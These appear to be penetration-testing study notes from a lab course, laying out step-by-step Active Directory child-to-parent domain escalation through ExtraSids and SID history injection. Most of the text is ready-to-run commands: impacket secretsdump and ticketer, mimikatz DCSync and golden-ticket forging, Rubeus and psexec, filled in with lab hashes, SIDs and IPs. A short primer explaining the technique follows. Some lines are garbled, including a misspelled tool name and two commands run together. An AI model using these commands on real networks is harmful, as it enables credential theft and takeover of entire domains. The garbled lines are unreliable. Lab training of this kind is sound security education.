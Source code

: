## Linux
##### AUTOMATED
Only need to specify the parent domain controller and child domain domain admin
```bash
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
```
##### Manual
Obtaining the KRBTGT Account's NT Hash using `secretsdump`
```bash 
impacket-secretsdump logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
```
Obtain Domain SID with `lookupsid`
```powershell
impakcet-lookupsid logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
```

> [!NOTE] Note
> `lookupsid` will give us back the SID for the domain and the RIDs for each user and group that could be used to create their SID in the format `DOMAIN_SID`-`RID`. For example, from the output below, we can see that the SID of the lab_adm user would be `S-1-5-21`-`2806153819`-`209893948-922872689(DomainSID)`-`1001(RID)`.

Obtain Enterprise Admins SID of parent domain
```bash
impakcet-lookupsid logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"
```
Create Golden ticket with `ticketer`
```bash
impacket-ticketer -nthash <krbtgt hash> -domain <ChildDomain> -domain-sid <CDomainSID> -extra-sid <EAdminsSID> Adot

impacket-ticketer -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 Adot
```
Set KRB5CCNAME Environment Variable
```bash
export KRB5CCNAME=Adot.ccache 
```
PSexec on parent domain DC
```bash
impacket-psexec LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
```

-----------------------
## Windows
Obtaining the KRBTGT Account's NT Hash using `mimikatz`
```powershell
lsadump::dcsync /user:LOGISTICS\krbtgt
```
Obtain Domain SID with `PowerView`
```powershell
Get-DomainSID
```
Obtain SID for the Enterprise Admins group in the parent domain
```powershell
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```
Perform SIDInjection and Golden Ticket creation with `mimikatz`
```powershell
kerberos::golden /user:hacker /domain:<ChildDomain> /sid:<CDomainSID> /krbtgt:<hash> /sids:<EAdminSID> /ptt

kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```
**Alternatively** with `Rubeus`
```powershell
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```
Confirm
```powershell
klist
```
List C: drive on parent domain controller
```powershell
ls \\academy-ea-dc01.inlanefreight.local\c$
```
Perform DCSync on parent domain users
```powershell
lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCALGet-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

## SID History Primer

The [sidHistory](https://docs.microsoft.com/en-us/windows/win32/adschema/a-sidhistory) attribute is used in migration scenarios. If a user in one domain is migrated to another domain, a new account is created in the second domain. The original user's SID will be added to the new user's SID history attribute, ensuring that the user can still access resources in the original domain.

SID history is intended to work across domains, but can work in the same domain. Using Mimikatz, an attacker can perform SID history injection and add an administrator account to the SID History attribute of an account they control. When logging in with this account, all of the SIDs associated with the account are added to the user's token.

This token is used to determine what resources the account can access. If the SID of a Domain Admin account is added to the SID History attribute of this account, then this account will be able to perform DCSync and create a [Golden Ticket](https://attack.mitre.org/techniques/T1558/001/) or a Kerberos ticket-granting ticket (TGT), which will allow for us to authenticate as any account in the domain of our choosing for further persistence.

## ExtraSids Attack - Mimikatz

This attack allows for the compromise of a parent domain once the child domain has been compromised. Within the same AD forest, the [sidHistory](https://docs.microsoft.com/en-us/windows/win32/adschema/a-sidhistory) property is respected due to a lack of [SID Filtering](https://www.serverbrain.org/active-directory-2008/sid-history-and-sid-filtering.html) protection. SID Filtering is a protection put in place to filter out authentication requests from a domain in another forest across a trust. Therefore, if a user in a child domain that has their sidHistory set to the `Enterprise Admins group` (which only exists in the parent domain), they are treated as a member of this group, which allows for administrative access to the entire forest. In other words, we are creating a Golden Ticket from the compromised child domain to compromise the parent domain. In this case, we will leverage the `SIDHistory` to grant an account (or non-existent account) Enterprise Admin rights by modifying this attribute to contain the SID for the Enterprise Admins group, which will give us full access to the parent domain without actually being part of the group.

To perform this attack after compromising a child domain, we need the following:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.
- With this data collected, the attack can be performed with Mimikatz.
